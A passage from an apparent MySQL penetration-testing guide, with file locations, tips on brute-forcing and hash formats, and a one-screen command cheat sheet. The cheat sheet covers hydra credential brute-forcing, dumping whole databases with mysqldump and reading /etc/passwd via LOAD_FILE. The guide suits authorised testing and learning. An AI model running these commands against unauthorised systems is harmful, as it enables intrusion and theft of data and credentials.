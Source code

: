 10) Useful locations and files (reference)
- Config: /etc/mysql/my.cnf, /etc/mysql/mysql.conf.d/mysqld.cnf, or /etc/my.cnf (Linux); C:\ProgramData\MySQL\MySQL Server X.Y\my.ini (Windows)
- Data dir: often /var/lib/mysql (Linux)
- Socket: /var/run/mysqld/mysqld.sock (local connections)
- Logs: /var/log/mysql/error.log or /var/log/mysqld.log

## Practical tips
- MySQL may restrict root to localhost; try non-root accounts and app creds observed elsewhere.
- Banner/handshake often reveals “5.x/MariaDB” via nc or mysql-info NSE; note version for vulnerability research.
- For brute-force, keep threads low (e.g., -t 4) to avoid lockouts and unreliable results.
- Use mysql -e and -sN for scriptable, clean outputs when chaining commands.
- secure_file_priv controls file read/write locations:
  - NULL: file operations disabled.
  - Empty: no restriction.
  - Path: only that directory is permitted.
- FILE privilege is required for LOAD_FILE and INTO OUTFILE; check SHOW GRANTS.
- authentication_string and plugin:
  - mysql_native_password: hashes like *94BD... (John/hashcat formats exist).
  - caching_sha2_password (MySQL 8+): different handling; hash dumping may not be straightforward.
- If performance is slow, the server may use name resolution; adding --skip-name-resolve on server side helps, but as a tester just be patient.
- Always save outputs (nmap, hydra, SQL dumps) with clear filenames for reporting.

## Minimal cheat sheet (one-screen flow)
```bash
export IP=10.10.10.10; export PORT=3306

# Scan + fingerprint
nmap -p $PORT -sV --script mysql-info -oN nmap_mysql_info.txt $IP
nc -nv $IP $PORT

# Quick weak creds
nmap -p $PORT --script mysql-empty-password -oN nmap_mysql_empty_pw.txt $IP
mysql -h $IP -P $PORT -u root -p

# Brute-force (gentle)
hydra -L users.txt -P passwords.txt -s $PORT -t 4 -I -f -o hydra_mysql.txt $IP mysql

# With creds
export U='user'; export P='pass'
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SELECT @@version,@@hostname,@@datadir;'
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SHOW GRANTS FOR CURRENT_USER();'
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SHOW DATABASES;'
mysql -h $IP -P $PORT -u "$U" -p"$P" -D db -e 'SHOW TABLES;'
mysql -h $IP -P $PORT -u "$U" -p"$P" -D db -e 'SELECT * FROM users LIMIT 10;'
mysqldump -h $IP -P $PORT -u "$U" -p"$P" --databases db > db.sql

# File operations check
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SHOW VARIABLES LIKE "secure_file_priv";'
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SELECT LOAD_FILE("/etc/passwd")\G'
```
